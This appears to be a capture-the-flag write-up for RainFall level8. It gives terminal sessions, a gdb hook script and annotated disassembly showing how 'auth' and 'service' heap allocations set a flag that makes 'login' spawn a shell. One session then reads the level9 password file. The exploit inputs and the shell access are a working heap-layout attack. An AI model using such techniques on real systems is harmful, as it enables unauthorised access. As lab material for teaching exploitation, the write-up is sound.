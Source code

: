  Use-After-Free (UAF)  Vulnerabilities https://youtu.be/ZHghwsTRyzQ?list=PLhixgUqwRTjxglIswKp9mpkfPNfHkzyeN


```
level8@RainFall:~$ ./level8
(nil), (nil)
auth
(nil), (nil)
service
(nil), 0x804a008
reset
(nil), 0x804a008
login
Segmentation fault (core dumped)
```

```
auth AAAAAA
0x804a008, (nil)
service 1111
0x804a008, 0x804a018
service 1111
0x804a008, 0x804a028
login
$ pwd
/home/user/level8
```

```
level8@RainFall:~$ ./level8
(nil), (nil)
auth aaa
0x804a008, (nil)
service jjjjjjjjjjjjjjjjjjjjjjjjjjjj
0x804a008, 0x804a018
login
$ pwd
/home/user/level8
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```

```
set hei 0
set pag off
define hook-stop
x/20wx 0x0804a000
echo ------------[service] -----------------\n
x/s service
x service
echo ------------[auth] --------------------\n
x/s auth
x auth
echo ------------[auth+32] -----------------\n
x/s auth+0x20
echo ---------------------------------------\n
continue
end
```

```
(gdb) c
Continuing.
(nil), (nil)
auth AAAA
0x804a008, (nil)
serviceBBBBBBBBBBBBBBBB
0x804a008, 0x804a018
^C
Program received signal SIGINT, Interrupt.
0x804a000:      0x00000000      0x00000011      0x41414141      0x0000000a
0x804a010:      0x00000000      0x00000019      0x42424242      0x42424242
0x804a020:      0x42424242      0x42424242      0x0000000a      0x00020fd9
0x804a030:      0x00000000      0x00000000      0x00000000      0x00000000
0x804a040:      0x00000000      0x00000000      0x00000000      0x00000000
------------[service] -----------------
0x804a018:       'B' <repeats 16 times>, "\n"
0x804a018:       'B' <repeats 16 times>, "\n"
------------[auth] --------------------
0x804a008:       "AAAA\n"
0x804a008:       "AAAA\n"
------------[auth+32] -----------------
0x804a028:       "\n"
---------------------------------------
login
$ pwd
/home/user/level8
```



The SCAS instruction is used to scan a string (SCAS = SCan A String). It compares the content of the accumulator (AL, AX, or EAX) against the current value pointed at by ES:[EDI].

When used together with the REPNE prefix (REPeat while Not Equal), SCAS scans the string searching for the first string element which is equal to the value in the accumulator. 




   0x08048575 <+17>:	mov    SERVICE**********************************,%ecx
   0x0804857b <+23>:	mov    AUTH***************************************,%edx

   0x08048586 <+34>:	mov    %ecx,0x8(%esp) SERVICE**********************************
   0x0804858a <+38>:	mov    %edx,0x4(%esp) AUTH***************************************
 
  
   0x080485ae <+74>:	call   0x8048440 <fgets@plt>

   0x080485bb <+87>:	lea     INPUT******** ,%eax
   0x080485bf <+91>:	mov    %eax, INPUT********


   0x080485cb <+103>:	mov     INPUT********, INPUT********

   0x080485cf <+107>:	repz cmpsb %es:("auth "),%ds:( INPUT********)
 
AUTH*************************************** = MALLOC(4)


   0x0804862a <+198>:	lea    INPUT******** ,%eax
   0x0804862e <+202>:	lea    0x5(%eax),INPUT********
   0x08048631 <+205>:	mov    AUTH***************************************, %eax
   0x08048636 <+210>:	mov    INPUT********, 0x4(%esp)
   0x0804863a <+214>:	mov    AUTH***************************************,(%esp)

strcpy(AUTH***************************************, INPUT******** + 5)


strncmp(RESET***************************************, INPUT********, 5)
   0x0804866b <+263>:	mov    AUTH***************************************,%eax
   0x08048673 <+271>:	call   0x8048420 <free@plt>


   0x08048678 <+276>:	lea     INPUT******** ,%eax
   0x0804867c <+280>:	mov    %eax,INPUT********
   0x0804867e <+282>:	mov    "service" ,%eax
   0x08048683 <+287>:	mov    $0x6,%ecx
   0x08048688 <+292>:	mov    INPUT********,%esi
   0x0804868a <+294>:	mov    %eax,%edi
   0x0804868c <+296>:	repz cmpsb %es:( "service"),%ds:(INPUT********)

strncmp( "service", INPUT********)

   0x080486a1 <+317>:	lea     INPUT******** ,%eax
   0x080486a5 <+321>:	add    $0x7,%eax
   0x080486a8 <+324>:	mov    %eax,(%esp)
   0x080486ab <+327>:	call   0x8048430 <strdup@plt>

strdup(INPUT********)


   0x080486b0 <+332>:	mov    %eax,SERVICE**********************************

SERVICE********************************** = strdup(INPUT********)


   0x080486b5 <+337>:	lea     INPUT******** ,%eax
   0x080486b9 <+341>:	mov    %eax,%edx
   0x080486bb <+343>:	mov    "login", %eax
   0x080486c0 <+348>:	mov    $0x5,%ecx
   0x080486c5 <+353>:	mov    %edx,%esi
   0x080486c7 <+355>:	mov    %eax,%edi
   0x080486c9 <+357>:	repz cmpsb %es:(%edi),%ds:(%esi)

  strcmp("login",  INPUT********)


   0x080486e7 <+387>:	mov    AUTH*************************************** + 0x20 ,%eax
   0x080486ea <+390>:	test   %eax,%eax
   0x080486ec <+392>:	je     0x80486ff <main+411>
   0x080486ee <+394>:	movl   "/bin/sh", (%esp)
   0x080486f5 <+401>:	call   0x8048480 <system@plt>
   0x080486fa <+406>:	jmp    0x8048574 <main+16>

if (AUTH*************************************** + 0x20)
   system("/bin/sh")

```
test is a non-destructive and, it doesnt return the result of the operation but it sets the flags
test eax, eax is the same as and eax, eax  except that it doesnt store the result in eax

TEST instruction performs a bitwise logical AND, 
discards the actual result and sets/unsets the zero-flag (ZF) according to the result of the logical and:
if the result is zero it sets ZF = 1, otherwise it sets ZF = 0.

Conditional jump instructions like JE are designed to look 
at the ZF for jumping/notjumping so using TEST and JE together is equivalent 
to perform a conditional jump based on the value of a specific register

```


